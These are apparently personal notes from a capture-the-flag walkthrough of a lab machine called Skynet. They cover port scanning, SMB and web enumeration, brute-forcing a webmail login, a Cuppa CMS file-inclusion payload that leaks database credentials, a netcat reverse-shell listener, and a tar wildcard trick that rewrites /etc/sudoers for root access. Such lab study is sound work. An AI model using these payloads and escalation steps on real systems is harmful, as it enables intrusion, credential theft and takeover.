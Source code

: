 ##################### INIT

	Local IP = 10.14.12.121
	Target IP = 10.10.142.0
	
##################### NMAP

#1 Not Responding to Ping nor nmap, reinitializing VPN fixes it.

Initial Scan : 
	`nmap -A  10.10.175.141 -oN nmap_initial.txt -Pn -v`

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 99:23:31:bb:b1:e9:43:b7:56:94:4c:b9:e8:21:46:c5 (RSA)
|   256 57:c0:75:02:71:2d:19:31:83:db:e4:fe:67:96:68:cf (ECDSA)
|_  256 46:fa:4e:fc:10:a5:4f:57:57:d0:6d:54:f6:c3:4d:fe (ED25519)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Skynet
110/tcp open  pop3        Dovecot pop3d
|_pop3-capabilities: AUTH-RESP-CODE SASL PIPELINING CAPA TOP RESP-CODES UIDL
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
|_imap-capabilities: ENABLE LITERAL+ IMAP4rev1 have OK listed capabilities Pre-login post-login LOGIN-REFERRALS ID more LOGINDISABLEDA0001 SASL-IR IDLE
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h40m45s, deviation: 2h53m12s, median: 45s
| nbstat: NetBIOS name: SKYNET, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   SKYNET<00>           Flags: <unique><active>
|   SKYNET<03>           Flags: <unique><active>
|   SKYNET<20>           Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|_  WORKGROUP<1e>        Flags: <group><active>
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: skynet
|   NetBIOS computer name: SKYNET\x00
|   Domain name: \x00
|   FQDN: skynet
|_  System time: 2021-07-06T12:17:38-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-07-06T17:17:38
|_  start_date: N/A


	
The hint is to enumerate Samba; We can see from nmap alot of SMB services are running.
	Run initial recon for SMB :
	
	`enum4linux 10.10.142.0 | tee enum4linux.txt`
	
	Find Anonymous access to SMB Share, lets see whats on there : 
	
		`mkdir smbshare; smbclient //10.10.142.0/anonymous ./`
		
We find a folder with Logfiles, one of them has actual data and what it seems a list of either usernames or passwords.
	there is an attention.txt file in the main directory, lets download it.
		`get attention.txt`

	```
		smb: \> cd logs\
		smb: \logs\> dir
		  .                                   D        0  Wed Sep 18 00:42:16 2019
		  ..                                  D        0  Thu Nov 26 11:04:00 2020
		  log2.txt                            N        0  Wed Sep 18 00:42:13 2019
		  log1.txt                            N      471  Wed Sep 18 00:41:59 2019
		  log3.txt                            N        0  Wed Sep 18 00:42:16 2019
	```

	Seems that log1.txt contains some data, lets download it.
	
	`get log1.txt`
	
Meanwhile we gobuster the Website to see if anything interesting comes up.

	`gobuster dir -u "http://10.10.142.0:80/" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
We notice Squirell mail is running on this machine. Lets try loggin in with the known username "milesdyson" and use the log1.txt as passwords.

Lets run Nikto too to see if gobuster missed anything:
	`nikto  -h http://10.10.142.0 | tee nikto.txt`

We find SquirelMail in Gobuster, so we check it out. 
	I launch the Browser in BurpSuite and make a random post.

	I used Burp to bruteforce this with log1 as passwords:
########################TASK 1	EMAIL PASSWORD : cyborg007haloterminator

		We get inside mail; we find SMB password:
##################### SMB PASSWORD: )s{A&2Z=F^n_E.B`

We look in the SMB share, navigate to notes/ and 
		`get important.txt`
		
	When we investigate this file, it points to a BETA CMS.
################## http://10.10.142.0//45kra24zxs28v3yd
We check it out, and its a personal page, its refered to as a CMS, so i run gobuster over it. once again
		`gobuster dir -u "http://10.10.142.0/45kra24zxs28v3yd/" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
	We find "http://10.10.142.0//45kra24zxs28v3yd/administrator"



I find a Javascript reference to a reset password form. Decide to abuse that to maybe get a reset paswword link on Suirellmail.
	Attempting to reset the email milesdyson@skynet is not working, its not showing a last domain.
		Not getting any emails in SquirelMail - Dead End it seems?
		
We looked on Exploit-db for a Vulnerability for Cuppa CMS:
	https://www.exploit-db.com/exploits/25971
	It mentions how to get the Config File (In Base64).
		http://10.10.142.0/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=php://filter/convert.base64-encode/resource=../Configuration.php
		
		When we do this, we receive a base64 String, when decoded we find the default configuration:

		public $host = "localhost";
		public $db = "cuppa";
		public $user = "root";
		public $password = "password123";
		
With the File inclusion i start a local Python Webserver
	python3 -m http.server 
	and make a reverse shell
		rlwrap nc -lvnp 4444
	
From localhost i make connection to Database with credentials found in configuration.php
	I found the SuperAdmin Entry and set its password to "21232f297a57a5a743894a0e4a801fc3", i found this online its the default Admin hash.
This was a dead end.

i ran LinPeas.sh to see if there is anything to Escalate my privlige, i notice that there is a backup.sh running every minute and the Tar is being done in a folder i can control.

I add command line parameters to this folder 
	echo 'echo "www-data ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > privesc.sh
	echo "/var/www/html"  > "--checkpoint-action=exec=sh privesc.sh"
	echo "/var/www/html"  > "--checkpoint=1"
